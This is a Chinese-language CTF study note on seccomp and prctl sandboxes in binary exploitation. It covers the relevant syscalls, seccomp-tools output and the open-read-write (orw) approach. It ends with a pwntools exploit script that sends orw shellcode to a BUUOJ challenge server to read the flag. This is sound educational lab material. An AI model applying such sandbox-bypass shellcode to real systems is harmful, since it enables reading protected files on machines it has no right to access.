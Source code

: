 ```yaml
---
title: pwn-sandbox1
date: 2022-05-10 23:40:06
tags:
---
```

# 沙盒利用

## 沙盒

- 作用：沙盒(Sandbox)是程序运行过程中的一种隔离机制，其目的是限制不可信进程和不可信代码的访问权限

## 常见函数

- `Secommp`库：是 Linux 内核 2.6.12 版本引入的安全模块，主要是用来限制某一进程可用的系统调用 (system call)。但它本身不是一种沙盒，一种减少 Linux 内核暴露的机制，是构建一个安全的沙盒的重要组成部分。
  - 作用：`Seccomp` 在最初引入的时候只支持了 strict mode，意味着只有 `read ，write ，_exit ，_sigreturn`四个 system call 会被允许。一旦出现其他的 system call，进程会被立刻终止 。后来又引入了 filter mode 模式，也就是 BPF，这样可调用的函数可以人为控制。
  - 引入标识
    ```cpp
    #include <linux/seccomp.h>
    ```
  - 利用方式：调用`Seccomp`时，基本意味着 `execve` 这种系统调用被禁用了(`system`是通过调用`execve`来实现的)，想通过这种方法拿到 shell 不可能。所以考虑利用其他函数来获得 flag，常用的方式就是 orw/p(open-read-write/puts)来读出 flag(用 open 打开 flag 文件，然后读出 flag，最后向 terminal 写出 flag)
- `prctl`函数

  - 函数原型

    ```cpp
    #include <sys/prctl.h>
    int prctl(int option, unsigned long arg2, unsigned long arg3, unsigned long arg4, unsigned long arg5);
    
    // option选项有很多，剩下的参数也由option确定，这里介绍两个主要的option
    // PR_SET_NO_NEW_PRIVS(38) 和 PR_SET_SECCOMP(22)
    
    // option为38的情况
    // 此时第二个参数设置为1，则禁用execve系统调用且子进程一样受用
    prctl(38, 1LL, 0LL, 0LL, 0LL);
    
    // option为22的情况
    // 只允许调用read/write/_exit(not exit_group)/sigreturn这几个syscall
    // 第二个参数为2，则为过滤模式，其中对syscall的限制通过参数3的结构体来自定义过滤规则。
    prctl(22, 2LL, &v1);
    ```

## 常用工具

- seccomp-tools

  ```shell
  sudo apt install gcc ruby-dev
  sudo gem install seccomp-tools
  ```

  - 常用命令

    ```shell
    seccomp-tools dump file_name
    #查看文件哪些系统调用被禁用，哪些允许使用
    ```

## orw/p 函数参数的深入

- 文件标识符：
  - 默认保留的 3 个：0-标准输入 1-标准输出 2-标准错误
  - 调用`open`时，文件标识符从 3 开始，每调用一次+1，直到`close`时才重置为 3

* open
  - 函数定义
    ```cpp
    int open(const char *pathname, int oflag, ... /* mode_t mode */);
    //pathname:文件路径
    //oflag:打开方式(O_RDONLY:只读模式、O_WRONLY:只写模式、 O_RDWR:读写模式)
    //成功返回文件句柄 ，失败返回-1
    ```
* read
  - 函数定义
    ```cpp
    int read(int fd,void *buf,int len);
    //fd:要读取的文件，如果调用了open，可以传入文件标识符，也可以打开
    //*buf:为要将读取的内容保存的缓冲区
    //len:读入的长度
    ```
* write

  - 函数定义

    ```cpp
    int write (int fd, const void * buf, size_t count);
    //write()会把参数buf所指的内存写入count 个字节到参数fd 所指的文件内. 当然, 文件读写位置也会随之移动.
    //返回值：如果顺利write()会返回实际写入的字节数. 当有错误发生时则返回-1, 错误代码存入errno 中.
    ```

* puts
  - 输出截断标识`\x00`

## 例题
### pwnable_asm
+ 分析：经典的orw
  
   题目
  
   ``` cpp
   int __cdecl main(int argc, const char **argv, const char **envp)
   {
     size_t v3; // rdx
     char *s; // [rsp+18h] [rbp-8h]
   
     setvbuf(stdout, 0LL, 2, 0LL);
     setvbuf(stdin, 0LL, 1, 0LL);
     puts("Welcome to shellcoding practice challenge.");
     puts("In this challenge, you can run your x64 shellcode under SECCOMP sandbox.");
     puts("Try to make shellcode that spits flag using open()/read()/write() systemcalls only.");
     puts("If this does not challenge you. you should play 'asg' challenge :)");
     s = (char *)mmap((void *)0x41414000, 0x1000uLL, 7, 50, 0, 0LL);
     memset(s, 144, 0x1000uLL);
     v3 = strlen(stub);
     memcpy(s, stub, v3);
     printf("give me your x64 shellcode: ");
     read(0, s + 46, 0x3E8uLL);
     alarm(0xAu);
     chroot("/home/asm_pwn");
     sandbox("/home/asm_pwn");
     ((void (__fastcall *)(const char *))s)("/home/asm_pwn");
     return 0;
   }
   ```
  
  
  
  分析题目，有sandbox，所以开启了沙盒保护，所以先用seccomp-tools检查哪些系统调用被允许。
  
  ``` shell
   seccomp-tools dump ./asm
    line  CODE  JT   JF      K
  =================================
   0000: 0x20 0x00 0x00 0x00000004  A = arch
   0001: 0x15 0x00 0x09 0xc000003e  if (A != ARCH_X86_64) goto 0011
   0002: 0x20 0x00 0x00 0x00000000  A = sys_number
   0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
   0004: 0x15 0x00 0x06 0xffffffff  if (A != 0xffffffff) goto 0011
   0005: 0x15 0x04 0x00 0x00000000  if (A == read) goto 0010
   0006: 0x15 0x03 0x00 0x00000001  if (A == write) goto 0010
   0007: 0x15 0x02 0x00 0x00000002  if (A == open) goto 0010
   0008: 0x15 0x01 0x00 0x0000003c  if (A == exit) goto 0010
   0009: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0011
   0010: 0x06 0x00 0x00 0x7fff0000  return ALLOW
   0011: 0x06 0x00 0x00 0x00000000  return KILL
  ```
  
  
  
  发现系统允许调用`read write open`，所以就用`orw`，然后考虑我们应该把`open`出的`flag`读到哪里。注意到
  
  `s = (char *)mmap((void *)0x41414000, 0x1000uLL, 7, 50, 0, 0LL)`，表明在`0x41414000`这里开辟了`0x1000`的内存大小。所以考虑读入到`0x41414000`。然后payload中使用了`shellcraft`模块来生成`shellcode`。具体怎么使用，以后在具体总结总结
  
  再说一下`mmap`函数的作用(`mmap`, 从函数名就可以看出来这是memory map, 即地址的映射, 是一种内存映射文件的方法)
  
  ``` cpp
  void* mmap(void* start,size_t length,int prot,int flags,int fd,off_t offset); 
  //start:映射区的开始地址，设置为0时表示由系统决定映射区的起始地址。
  //映射区的长度。//长度单位是 以字节为单位，不足一内存页按一内存页处理 
  //成功执行时，mmap()返回被映射区的 指针，失败时，mmap()返回MAP_FAILED[其值为(void *)-1]
  ```
  
  
  
+ payload
  ``` python
  from pwn import *
  context(arch='amd64',os='Linux',log_level='debug')
  p=remote('node4.buuoj.cn','27383')
  elf=ELF('./asm')
  offset=0x41414000
  payload=''
  payload=shellcraft.open('flag')+shellcraft.read(3,offset,0x100)+shellcraft.write(1,offset,0x100)
  payload=asm(payload)
  p.sendline(payload)
  p.interactive()
  ```